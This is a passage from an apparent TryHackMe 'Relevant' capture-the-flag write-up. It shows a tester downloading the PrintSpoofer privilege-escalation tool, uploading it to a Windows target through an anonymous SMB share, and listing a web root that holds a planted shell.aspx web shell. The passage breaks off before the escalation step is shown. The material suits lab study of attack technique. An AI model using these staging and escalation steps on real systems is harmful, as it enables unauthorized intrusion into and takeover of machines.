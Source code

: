 # Getting a system shell
![3](/assets/images/thm/relevent/3.png)
So I will be using printSpoofer to get a system shell.

## Downloading the file to the box from [github](https://github.com/itm4n/PrintSpoofer)
```console
local@local:~/Documents/tryhackme/relevant$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe -O PrintSpoofer.exe
--2020-11-13 10:56:35--  https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
Resolving github.com (github.com)... 13.250.177.223
Connecting to github.com (github.com)|13.250.177.223|:443... connected.
HTTP request sent, awaiting response... 302 Found
HTTP request sent, awaiting response... 200 OK
Length: 27136 (26K) [application/octet-stream]
Saving to: ‘PrintSpoofer.exe’

PrintSpoofer.exe                            100%[===========================================================================================>]  26.50K   109KB/s    in 0.2s    

2020-11-13 10:56:37 (109 KB/s) - ‘PrintSpoofer.exe’ saved [27136/27136]
```
Lets upload this file differently  using smbclient.
```console
local@local:~/Documents/tryhackme/relevant$ smbclient -N \\\\10.10.184.223\\nt4wrksv
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (19.2 kb/s) (average 15.1 kb/s)
smb: \> 
```

## Listing the content
```cmd
c:\inetpub\wwwroot>dir                   
dir                                                                                     
 Volume in drive C has no label.                                                        
 Volume Serial Number is AC3C-5CB5                             
 Directory of c:\inetpub\wwwroot\nt4wrksv

11/12/2020  10:09 PM    <DIR>          .
11/12/2020  10:09 PM    <DIR>          ..
07/25/2020  07:15 AM                98 passwords.txt
11/12/2020  10:09 PM            27,136 PrintSpoofer.exe
11/12/2020  10:08 PM            15,970 shell.aspx
               3 File(s)         43,204 bytes
               2 Dir(s)  20,269,436,928 bytes free

```
